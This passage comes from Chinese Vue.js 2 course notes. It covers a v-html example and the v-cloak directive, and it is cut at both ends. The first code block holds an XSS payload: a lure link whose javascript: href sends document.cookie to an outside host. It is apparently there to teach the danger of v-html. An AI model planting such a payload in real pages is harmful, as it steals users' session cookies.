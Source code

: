 ```
        Vue.config.productionTip = false

        new Vue({

            el:'#root',

            data:{

                name:'尚硅谷',

                str:'<h3>你好啊！<h3/>',

                str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！<a/>'

            }

        })

    </script>

</body>

</html>
```

### - P42 - v-cloak指令

**课堂笔记：**

（1）在Network——No throttling 中也可以控制网速。

（2）回顾：JS阻塞，因为浏览器渲染是一个单线程过程，所以会有js阻塞的问题。

**老师总结：**

v-cloak指令（没有值）：

1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。

2.使用css配合v-cloak可以解决网速慢时页面展示出{{ xxx }}的问题。

本节代码（直接复制到空白html页面即可使用）：

```
<!DOCTYPE html>

<html lang="en">

<head>

    <meta charset="UTF-8">

    <meta http-equiv="X-UA-Compatible" content="IE=edge">

    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <title></title>

    <script type="text/javascript" src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.1/vue.js"></script>

    <style>

        [v-cloak]{

            display: none;
```